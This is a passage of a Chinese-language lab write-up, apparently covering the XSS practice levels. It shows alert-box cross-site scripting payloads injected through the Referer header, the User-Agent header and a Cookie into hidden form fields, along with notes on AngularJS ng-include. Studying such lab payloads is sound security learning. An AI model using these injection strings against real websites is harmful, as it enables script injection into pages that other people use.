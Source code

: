 尝试对ref进行测试

抓取数据包，然后修改Referer

```javascript
1"onclick='javascript:alert(1)' type=button >//
```

![image-20221001160559098](C:\Users\XW\AppData\Roaming\Typora\typora-user-images\image-20221001160559098.png)

## 12、隐藏信息，多参数选择加User—Agent

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ua"  value="Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Mobile Safari/537.36 Edg/105.0.1343.53" type="hidden">
```

遇上题不同的是添加了t_ua猜测是User-Agent直接构造payload：

```html
1" onclick='javascript:alert(1)' type='button'>
```

![image-20221001161205399](C:\Users\XW\AppData\Roaming\Typora\typora-user-images\image-20221001161205399.png)

## 13、隐藏信息，多参数选择加Cookie

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_cook"  value="" type="hidden">
```

遇上题不同的是添加了t_cookl猜测是Cookie直接构造payload：

```javascript
Cookie: user=click me !" type="button" onclick="alert(/xss/)
```

## 15、src跳转

测试之后代码：

```html
<span class="ng-include:&lt;script&gt;alert(1)&lt;/script&gt;"></span>
```

发现<>被转义

ng-include作用：

```html
ng-include 指令用于包含外部的 HTML文件。

包含的内容将作为指定元素的子节点。

ng-include 属性的值可以是一个表达式，返回一个文件名。

默认情况下，包含的文件需要包含在同一个域名下。
```
